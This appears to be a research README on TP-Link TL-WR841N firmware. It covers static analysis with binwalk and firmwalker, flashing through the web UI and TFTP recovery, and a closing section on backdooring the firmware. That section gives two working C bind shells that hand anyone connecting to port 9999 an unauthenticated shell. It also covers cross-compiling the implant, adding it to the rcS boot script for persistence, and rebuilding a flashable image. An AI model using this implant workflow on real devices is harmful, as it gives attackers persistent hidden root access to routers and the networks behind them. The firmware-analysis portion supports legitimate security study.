


# Static analysis

- Model: `TL-WR841N`
- Hardware version: `V14.1`

This document describes how we obtained and inspected the official TP-Link firmware for the `TL-WR841N` (EU build), and how we tested flashing methods. The original firmware was downloaded from the TP-Link support page: https://www.tp-link.com/it/support/download/tl-wr841n/#Firmware. Always choose the firmware that matches the router model, hardware version and the target region (EU in our case).

## Binwalk
We unpacked the firmware with `binwalk3` to inspect its structure.


You can also use the `firmware-mod-kit` (FMK) suite, which includes `binwalk` and provides utilities to rebuild firmware 
after modifications. `Binwalk` has detected two section in the `.bin` file:
- LZMA compressed data: Lempel-Ziv-Markov-Algorithm is an efficient compression algorithm like `.7z`. Usually, in router firmware, LZMA is used to reduce kernel size to save space in flash memory. So, based on this informations, is reasonable to assume that is the kernel section of the `.bin` file
- SquashFS filesystem: SquashFS is a linux compressed read-only filesystem. It contains the rootfs

## FirmWalker
We have extract the squashfs with `binwalk -e TL-WR841N-V14-EU-firmware.bin`. After that, we have execute `firmwalker` on the extracted file system to search sensitive information. The full `firmwalker` output is available at `scripts/firmwalker-output.txt`. 

The FirmWalker scan highlights several areas of interest:

- Presence of **system account files** (`/etc/passwd`, `passwd.bak`)
- Numerous **web interface components** including login pages, JavaScript encryption routines, and administrative tool pages
- Multiple **networking and tunneling binaries** (PPPoE, PPTP, L2TP, DHCPv6, UPnP)
- Important **embedded system binaries** (BusyBox, Dropbear, httpd)
- Potentially sensitive **configuration scripts** (`config-mii.sh`, `emulate.sh`)
- Hardcoded **IP addresses**, **URLs**, and references to third-party services (DDNS providers)
- Presence of **EEPROM** binary for Wi-Fi chipset configuration
- No direct discovery of shadow password files or Unix-MD5 hashes
- No SSL private keys explicitly exposed in the filesystem

Overall, the filesystem presents a typical embedded Linux environment for TP-Link devices, but includes several legacy components and backup files that merit additional scrutiny.

### System Account Files
FirmWalker identifies:

- `t/etc/passwd`
- `t/etc/passwd.bak`

The standard `passwd` file does not contain password hashes (no `/etc/shadow` file is present), which is common for embedded devices relying on application-level authentication handled by the web server. However, the existence of `passwd.bak` is noteworthy. Backup credential files may expose system accounts if improperly protected in deployments.

### Absence of Hashes
The scan confirms:

- No Unix-MD5 hashes
- No shadow file

This suggests that administrative authentication for the web management interface is implemented in a proprietary manner, typically via JavaScript obfuscation (`tpEncrypt.js`) and backend configuration storage.

### Shell Scripts
The scan identifies:

- `config-mii.sh`
- `emulate.sh`

These scripts may contain network initialization routines or debugging utilities left from development. Given their direct interaction with the system, they should be reviewed for:

- Unsafe command execution
- Hardcoded credentials
- Debug or maintenance backdoors

### Additional Configuration Files
Files such as:

* `/etc/resolv.conf`

Indicate DNS defaults that may influence network behavior but do not appear inherently sensitive.

### Embedded System Biaries
Key binaries detected include:

- `busybox`
- `dropbearmulti`
- `httpd`
- `scp`, `tftp`
- PPP and tunneling daemons (`pppd`, `xl2tpd`, etc.)
- Wi-Fi driver component (`mt_wifi.ko`)

These components collectively form the core networking and management stack of the router. Historically, command injection, buffer overflows, and authentication bypass issues in TP-Link firmware have been associated with:

- Web management binaries (`httpd`)
- PPPoE and tunneling configuration handlers
- Dropbear versions lacking strong key handling

A detailed reverse-engineering pass is recommended to verify the absence of known vulnerabilities.

### EEPROM Binary
The presence of:

- `MT7628_EEPROM_20140317.bin`

contains radio calibration data and regulatory settings. It is not sensitive by itself but confirms the Wi-Fi chipset architecture (MediaTek MT7628), useful for cross-referencing vendor-specific vulnerabilities.

### Web Management Interface Components
The filesystem includes extensive HTML, JavaScript, and help files associated with the router’s administrative web UI. Notable items include:

- Login pages (`frame/login.htm`, `main/password.htm`)
- Management control pages (`manageCtrl.htm`)
- JavaScript support files (`help.js`, `str.js`)
- Encryption routines (`tpEncrypt.js`)

These assets represent critical attack surfaces. Specific areas of concern:

1. Potential for **authentication bypass** via misconfigured access controls
2. **Weak or reversible password obfuscation** in JavaScript
3. **Command injection** vectors in WAN, DDNS, VPN, or Wi-Fi configuration handlers

Because FirmWalker highlights many files containing strings such as “admin”, “root”, and “password”, these should be examined to understand:

- How user credentials are processed
- Whether sensitive data is transmitted securely
- Whether hardcoded logic or backdoor accounts exist

### Networking, Tunneling, and Protocol-Derived Artifacts
The firmware contains numerous files associated with:

- PPPoE, L2TP, PPTP
- DHCPv6 clients/servers
- UPnP (`upnpd`)

These services have a long history of exploitation on embedded devices, especially when their configuration endpoints are exposed through the web interface.

Binary-level review is highly recommended for:

- Format string vulnerabilities
- Buffer overflow conditions
- Unsafe system call wrappers

### IP Addresses
A range of internal and external IP addresses is present, such as:

- Router defaults: `192.168.0.1`
- Alternate LAN subnets: `192.168.15.x`
- External services: `202.96.12.8`

These may be used for:

- Default routing logic
- DDNS updates
- Diagnostics or fallback DNS

Any external IP should be verified to ensure that the router does not communicate with undocumented third-party endpoints.

### URLs
Numerous URLs appear in the filesystem, referencing:

- TP-Link support sites
- DDNS providers (NoIP, Oray)
- Local router access URLs (tplinkwifi.net)

While mostly benign, they represent potential indicators of external service integration, which must be reviewed for:

- Protocol security
- Lack of certificate validation
- Exposure of user credentials to third parties

### Sensitive Ketwords: "secret", "token", "key"
The scan lists binaries such as:

- `rt2860apd`
- `pppd`
- `dhcp6c`
- `xl2tpd`

as containing keywords such as “secret” and “token”. These occurrences may refer to:

- PPP authentication tokens
- WPS/WPA key management routines
- DHCPv6 identity associations

This does not imply the presence of exposed secrets but signals that the binaries should be analyzed with tools such as `strings`, `binwalk`, or Ghidra to confirm that no hardcoded credentials or cryptographic material are embedded.

### Absence of SSL/TLS Keys
FirmWalker did **not** identify:

- `.pem`
- `.key`
- `.crt`

This suggests that the firmware may:

- Use autogenerated keys at runtime, or
- Not use HTTPS for its web interface

The absence of contained keys is positive; however, **lack of HTTPS support is a critical security concern** for administrative interfaces.

### Overall Security Assessment
The filesystem content reflects a typical TP-Link embedded Linux distribution with:

- Legacy components
- Numerous networking utilities
- A custom web interface
- Backup files and administrative scripts
- Third-party service integrations

While FirmWalker does not reveal direct vulnerabilities, several findings increase the need for deeper analysis:

1. Backup credential files (`passwd.bak`)
2. Legacy tunneling and PPP binaries
3. Large attack surface in the web UI
4. Potential weak password obfuscation mechanisms
5. Hardcoded IP addresses and URLs
6. Lack of HTTPS indicators

These elements collectively suggest that the firmware should undergo:

- Manual reverse engineering of `httpd` and authentication modules
- Static analysis of configuration and shell scripts
- Inspection for command injection vectors in form handlers
- Dynamic testing in an emulated environment (e.g., QEMU)

##################

Firmware can be emulated with `qemu`, but qemu-based emulation often requires workarounds and may 
have issues emulating shared memory and will not emulate proprietary hardware interfaces, so results can be incomplete. 
Thus, we chose to test on the physical device.

We explored two flashing methods:
- Using the router's default web interface
- Using a TFTP server (recovery mode)

## Web interface flash

To flash a custom image from the router web interface you must provide a firmware file that the web update mechanism will accept.
To validate that the firmware extraction was successful we unpacked the firmware with `firmware-mod-kit`, modified the 
web UI in the extracted `rootfs` (for example by editing `rootfs/web/index.htm` and adding `rootfs/web/js/test.js`),
and rebuilt the image using FMK.





We uploaded the rebuilt `.bin` file through the router web interface to confirm the update process accepted and flashed the image.


This verified that `firmware-mod-kit` can rebuild a valid firmware image starting from the original `.bin` rootfs.

## TFTP recovery flash

If the web interface is not available (for example after a brick or during a bootloop), you can force a flash using a
TFTP server. Place a firmware file with the correct filename in the TFTP server root, force the device into recovery mode,
and the router will pull the file and flash it. For the `V14` hardware the recovery filename is `tp_recovery.bin`.

### Install TFTP server on Fedora

Run:

```
sudo dnf install tftp-server tftp -y
sudo cp /usr/lib/systemd/system/tftp.service /etc/systemd/system/tftp-server.service
sudo cp /usr/lib/systemd/system/tftp.socket /etc/systemd/system/tftp-server.socket
```

Edit `/etc/systemd/system/tftp-server.service`  (for example with `nano`) to match:

```
[Unit]
Description=TFTP Server
Requires=tftp-server.socket
Documentation=man:in.tftpd

[Service]
ExecStart=/usr/sbin/in.tftpd -c -p -s /var/lib/tftpboot
StandardInput=socket

[Install]
WantedBy=multi-user.target
Also=tftp-server.socket
```

Save the file, then run:

```
sudo systemctl daemon-reload
sudo systemctl enable --now tftp-server
sudo chmod 777 /var/lib/tftpboot
sudo firewall-cmd --add-service=tftp --permanent
sudo firewall-cmd --reload
```

Notes:
- We intentionally avoid recommending disabling the firewall or SELinux permanently. In some test environments you may temporarily stop `firewalld` or set SELinux to permissive, but do so only briefly and understand the risk.
- TFTP is insecure; do not expose it to untrusted networks.

To place a file in the TFTP root:

```
sudo mv <filename> /var/lib/tftpboot/
```

### Recovery procedure and flashing

For the router to pull the file from the TFTP server, configure the server interface with IP `192.168.0.66` and netmask `255.255.255.0`, and place the file named `tp_recovery.bin` in the TFTP root. Then follow the hardware-specific recovery sequence:

- Disconnect power
- Press and hold the WPS/RESET button
- Reconnect power while holding the button
- Release the button only when the WPS (orange) LED starts flashing rapidly

When in recovery mode the router will attempt to download `tp_recovery.bin` from `192.168.0.66`. You can monitor TFTP transfers with:

```
sudo tcpdump -ni <eth> port 69
```

After the flash completes the device reboots and the web interface should be available at `192.168.0.1`.

The file `scripts/tftp_server.sh` automates the setup process of the TFTP server and the configuration of the interface,
IP address, and recovery files. When the script is executed, after setting up the environment, it runs `tcpdump` on the
specified interface. When interrupted using `Ctrl+c`, it restores the environment by resetting the firewall and SELinux 
modes and removing any unnecessary directories.

Usage:

```
./tftp_server.sh <interfaccia_di_rete> <firmware.bin>
```

### Note: stripped firmware
Unlike the web-update process, TFTP recovery usually expects a stripped firmware image without the boot image. To create a recovery file from a rebuilt firmware you can use:

```
dd if=new-firmware.bin of=tp_recovery.bin skip=1 bs=512
```

Note: see the OpenWRT guide on how to go back to the original firmware: https://openwrt.org/toh/tp-link/tl-wr841nd#go_back_to_original_firmware


# Backdooring the Firmware
In this section, we examine the process of introducing a controlled backdoor mechanism into the firmware for research and 
analysis purposes. The objective of this effort is practical deployment and firmware exploitation as well as
workflows, toolchain preparation, and architectural behavior under altered system conditions.

Our initial approach consisted of surveying existing public examples of backdoor-style programs, both to understand common 
design patterns and to evaluate their suitability for adaptation. This exploratory phase led us to a minimal bind‑shell 
implementation published by [Osanda Malith](https://github.com/OsandaMalith/Meterpreter-BackDoor), serving as a baseline reference rather than a drop‑in solution. 
Although the code provides insight into typical techniques used on BusyBox‑based systems, its original form contains 
several structural issues that prevent safeand reliable use.

The remainder of this section shows how we analyzed, corrected, and re‑engineered the code to produce a more 
predictable and standards‑compliant variant, ultimately integrating it into the firmware modification workflow outlined 
below.


## First idea: Scavanging GitHub
Our initial approach consisted of surveying publicly available implementations of lightweight backdoors suitable for 
embedded systems. The goal was to adopt an existing solution wholesale.

During this exploratory phase, we came across a small proof‑of‑concept published by Osanda Malith,
which provides a simple bind‑shell implementation targeting BusyBox‑based devices. At first glance, the program appeared to align with the
constraints of our platform, making it a reasonable candidate for our goal.

However, a closer inspection revealed several architectural shortcomings and unsafe practices that prevented the code
from being integrated directly into the firmware. Instead, it functioned more as an illustrative baseline,
highlighting the essential components of a minimalist backdoor while underscoring the need for a more robust and
standards‑compliant re‑implementation tailored to our environment.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT	9999
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox
  * Arch : MIPS
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc
  */
int main() {
	int serverfd, clientfd, server_pid, i = 0;
	char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
	char *args[] = { "/bin/busybox", "sh", (char *) 0 };
	struct sockaddr_in server, client;
	socklen_t len;
	
	server.sin_family = AF_INET;
	server.sin_port = htons(SERVER_PORT);
	server.sin_addr.s_addr = INADDR_ANY; 

	serverfd = socket(AF_INET, SOCK_STREAM, 0);
	bind(serverfd, (struct sockaddr *)&server, sizeof(server));
	listen(serverfd, 1);

    while (1) { 
    	len = sizeof(struct sockaddr);
    	clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork(); 
        if (server_pid) { 
        	write(clientfd, banner,  strlen(banner));
	        for(; i <3 /*u*/; i++) dup2(clientfd, i);
	        execve("/bin/busybox", args, (char *) 0);
	        close(clientfd); 
    	} close(clientfd);
    } return 0;
}
```

## Issues in Osanda Malith code
The code we initially examined, while functional as a proof‑of‑concept, suffered from several structural weaknesses that 
made it unreliable in practice. It performed critical operations without checking whether they had succeeded, relied on 
a process‑management flow that placed the workload on the wrong execution path, and reused variables in ways that made its 
handling of input and output streams inconsistent. In addition, it lacked any mechanism to clean up terminated child processes,
failed to properly initialize its network structures, and omitted common practices that allow network services to restart cleanly.
Some of its data‑structure sizes were mismatched, and certain resources were even released more than once. Altogether,
these issues reflected a quick demonstration rather than a robust implementation and motivated a more disciplined rewrite 
for our experimental environment.
## Patching the Code
After identifying the deficiencies present in the original backdoor implementation, we undertook a systematic refactoring of the program to correct its structural and operational flaws. The resulting revision, which we refer to as `backdoor_V2.c`, incorporates proper error checking, process‑management hygiene, and safer socket-handling practices. For completeness, the improved version of the code is included below:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <signal.h>

#define SERVER_PORT 9999

int main() {
    int serverfd, clientfd;
    pid_t pid;
    socklen_t len;
    struct sockaddr_in server, client;
    char *banner = "[~] Bind Shell Ready\n";
    char *args[] = { "/bin/sh", NULL };

    signal(SIGCHLD, SIG_IGN); // avoid zombie

    serverfd = socket(AF_INET, SOCK_STREAM, 0);
    if (serverfd < 0) return 1;

    int yes = 1;
    setsockopt(serverfd, SOL_SOCKET, SO_REUSEADDR, &yes, sizeof(int));

    memset(&server, 0, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    server.sin_addr.s_addr = INADDR_ANY;

    if (bind(serverfd, (struct sockaddr *)&server, sizeof(server)) < 0)
        return 1;

    if (listen(serverfd, 5) < 0)
        return 1;

    while (1) {
        len = sizeof(client);
        clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        if (clientfd < 0) continue;

        pid = fork();
        if (pid == 0) {
            // child
            write(clientfd, banner, strlen(banner));

            dup2(clientfd, 0);
            dup2(clientfd, 1);
            dup2(clientfd, 2);

            execve("/bin/sh", args, (char *) 0);
            exit(0);
        }

        // parent cleanup
        close(clientfd);
    }

    close(serverfd);
    return 0;
}
```
This revised version addresses the architectural inconsistencies observed in the initial codebase, replacing unsafe 
constructs with more predictable and standards‑compliant system calls. From a research standpoint, the transformation 
illustrates the importance of disciplined resource management and explicit failure handling when examining or instrumenting 
embedded firmware components.

## Preparing a Toolchain
A crucial prerequisite for working with embedded firmware is the availability of a suitable cross‑compilation toolchain.
Because the target platform in this case requires a MIPS32 Release2 little‑endian compiler, we began by investigating the 
official TP‑LINK resources. The TP‑LINK GPL Source Center provides extensive source packages; however, they rely on legacy 
build environments such as Ubuntu12.04, rendering them impractical for contemporary research workflows without substantial 
system recreation.

To overcome these limitations, we turned to an open‑source build framework:`buildroot`. This environment allowed us to 
configure a custom toolchain tailored to our target architecture. The full configuration used in our research can be 
inspected in the `buildroot/Makefile.md` file within the project repository.

For convenience, we prepared an `env.sh` script that sets the environment variables required to invoke the cross‑compiler. 
The script can be loaded using:
``` bash
source env.sh
```
Researchers may need to adjust the `PATH` and `SYSROOT` variables according to their local filesystem layout.
Once configured, compiling target‑architecture binaries becomes straightforward:
``` bash
mipsel-linux-gcc -o backdoor backdoor.c
```
and the resulting artifact can be examined with:
```bash
file backdoor
```
to validate that the output corresponds to a MIPS32 Release2 executable.
Integrating the compiled binary into the working filesystem involves placing it within the unpacked firmware tree at:
``` 
fmk/rootfs/bin/backdoor
```
using appropriate privileges.

## Modifying the Firmware Init System
To ensure the binary is executed at boot time within the emulated or physical router, it must be referenced by the system’s 
initialization scripts. The startup sequence for the examined firmware is orchestrated through `/etc/init.d/rcS`. 
Appending a new entry to this script allows the binary to be invoked during system initialization:
``` bash
sudo echo "/bin/backdoor &" >> fmk/etc/init.d/rcS
```
This modification ensures that the program is launched automatically upon device startup.

## Rebuilding the Firmware
Once the filesystem has been patched, reconstructing a flashable firmware image is a straightforward procedure. 
From within the `FirmwareModUtils/firmware-mod-kit` directory, executing:
```
sudo ./build-firmware.sh -min
```
The `-min` option is needed to allow FMK to build the firmware with a size that differs from the original.
This generates a new `.bin` firmware image. This file should be deployed to the target device following the standard 
vendor‑specific firmware flashing process, though in this case it is not as easy, please refer to the flashing paragraph
of this guide.

## Emulating in QEMU
As discussed earlier, directly executing the original firmware within QEMU is non‑trivial due to hardware‑specific 
dependencies and incomplete peripheral emulation. To streamline this step, we provide a helper script, `repackFirmware.py`,
which performs additional automated adjustments to the unpacked filesystem. These adjustments improve compatibility with 
QEMU by patching or substituting components not readily supported by the emulator.

The script can be used as follows:
```
sudo python repackFirmware.py <path to an unmodified firmware>
```
**Note:** By default, the tool detects and injects a “fake libnvram” implementation to emulate shared‑memory behaviour 
expected by the firmware. If this library is unavailable, the script copies a fallback version from the FAT directory into
the root filesystem. A `--no-rootfs-patch` option is provided for researchers who wish to disable automated rootfs modifications.
You may also need to compile `nvramfaker` from [source](https://github.com/zcutlip/nvram-faker).

This workflow enables a reproducible and controlled environment for firmware analysis, facilitating experimentation 
without requiring continuous flashing of physical hardware.

Though this option is provided to researchers we preferred to work directly on the hardware.
